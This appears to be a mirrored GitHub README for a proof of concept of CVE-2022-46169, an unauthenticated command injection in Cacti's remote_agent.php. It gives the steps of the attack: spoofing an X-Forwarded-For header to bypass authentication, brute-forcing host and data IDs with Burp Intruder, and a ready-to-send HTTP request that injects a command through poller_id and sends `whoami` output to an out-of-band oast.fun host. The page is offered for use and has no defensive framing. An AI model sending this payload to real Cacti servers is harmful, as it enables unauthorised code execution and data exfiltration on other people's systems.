 # CVE-2022-46169

CVE-2022-46169 Cacti remote_agent.php Unauthenticated Command Injection.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/0xf4n9x](https://github.com/0xf4n9x) |
| Url      | [https://github.com/0xf4n9x/CVE-2022-46169](https://github.com/0xf4n9x/CVE-2022-46169)                                               |
| Stars    | 47                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-46169

CVE-2022-46169 Cacti remote_agent.php Unauthenticated Command Injection.

## Auth Bypass

Add `X-Forwarded-For` header to bypass authentication, note that its value is not a fixed value.

![image](https://user-images.githubusercontent.com/40891670/206341900-5b4b4a59-92c5-4d19-9913-e97c1aa44180.png)

![image](https://user-images.githubusercontent.com/40891670/206342934-3e2f99e3-8ae6-406c-b28b-38bc6fd6c21c.png)

## Brute Force

Use Burp Intruder to fuzz test the values of `host_id` and `local_data_ids`.

![image](https://user-images.githubusercontent.com/40891670/206341202-253e43ec-da5b-43d1-8d3a-2e36c9041605.png)

![image](https://user-images.githubusercontent.com/40891670/206341491-aa41526b-12f8-4e97-999b-90f14a1d301b.png)

## RCE

The point of command injection is the `poller_id` parameter.

```http
GET /cacti/remote_agent.php?action=polldata&poller_id=;ping%20-c%202%20`whoami`.ccsy8s32vtc0000x5nagg8rkyboyyyyyc.oast.fun&host_id=2&local_data_ids[]=6 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; U; Linux armv6l; rv 1.8.1.5pre) Gecko/20070619 Minimo/0.020
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1


```

![image](https://user-images.githubusercontent.com/40891670/206337930-d1c2c044-b7ea-47ff-a740-9f8320594816.png)


## Reference

- https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf



## Get the content

```
git clone https://github.com/0xf4n9x/CVE-2022-46169
cd CVE-2022-46169
```

{% embed url="https://github.com/0xf4n9x/CVE-2022-46169" %}

<figure><img src="https://avatars.githubusercontent.com/u/40891670?v=4" alt=""><figcaption><p>0xf4n9x</p></figcaption></figure>
